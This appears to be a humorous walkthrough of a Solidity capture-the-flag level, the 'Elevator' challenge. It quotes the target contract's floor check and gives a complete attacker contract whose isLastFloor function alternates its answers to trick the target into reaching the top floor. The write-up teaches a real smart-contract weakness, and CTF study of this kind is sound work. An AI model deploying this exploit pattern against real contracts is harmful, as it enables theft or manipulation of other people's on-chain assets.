

***Elevator***


You and some sick mates need to get to the penthouse. You get on the elevator and see a man standing inside. He controls where the elevator goes. You say to him, "good day, sir. Please `goto(floorNumber)`." but the elevator operator knows that the last floor of the building isn't somewhere you should be able to access. The building is n-dimensional, and no one aboard the elevator can be sure of what timeline they're in, let alone which floor the penthouse suite resides at.

The elevator operator considers your request, leans forward towards a phone to the front desk, and calls the manager. "I'm taking some gentlemen away to `floorNumber`, is that the last floor?"

A static crackle comes through the mic: *"no. send 'em up"*

"Just making sure I'm following the rules, lads!" The operator points at a sign on the wall titled 'RULES':

```
if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
```

You and your mates thank him and step off the elevator onto `floorNumber` to stand in the hall for a bit and think on a strategy to get to the penthouse.

What if you head down to the lobby, distract the manager, answer the phone, and lie about the position of the penthouse? That's what the following code does...

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
  function goTo(uint _floor) external;
}

contract Hack {

  Elevator targetContract;

  constructor(address _targetAddr) {
          targetContract = Elevator(_targetAddr);
  }

  bool toggle = true;
    function isLastFloor(uint) external returns (bool){
      toggle = !toggle;
      return toggle;
    }

    function takeMeToThePenthouse(uint _floor) public{
      targetContract.goTo(_floor);
    }
}

```

Notice we're basically just answering true then false repeatedly. This breaks the logic of the calling contract, demonstrating that you can't rely on state storage to remain stable for critical logic.

